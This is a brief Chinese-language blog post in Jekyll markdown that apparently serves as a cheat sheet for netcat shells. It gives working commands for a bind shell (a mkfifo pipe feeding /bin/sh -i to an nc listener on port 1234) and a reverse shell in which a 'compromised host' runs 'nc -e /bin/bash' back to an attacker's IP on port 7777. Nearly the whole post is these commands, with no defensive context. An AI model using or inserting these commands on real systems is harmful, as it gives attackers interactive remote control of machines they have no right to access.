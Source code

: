 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:     nc正反向shell   # 标题
subtitle:   nc #副标题
date:       2019-10-24 				# 时间
author:     DYD 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - nc
    - shell
---
```


#### 正向shell

**首先创建fifo文件**
```shell
mkfifo /tmp/f
```

**监听本地1234端口**
```shell
cat /tmp/f | /bin/sh -i 2>&1 | nc -l 192.168.1.4 1234 > /tmp/f
```
**另一台机器去连**
```shell
nc 192.168.1.4 1234 
```

#### 反向shell

**攻击者主机监听端口**
```shell
nc -l 7777
```

**沦陷主机主动反向去连接攻击者主机**

```shell
nc -e /bin/bash 192.168.0.24 7777
```

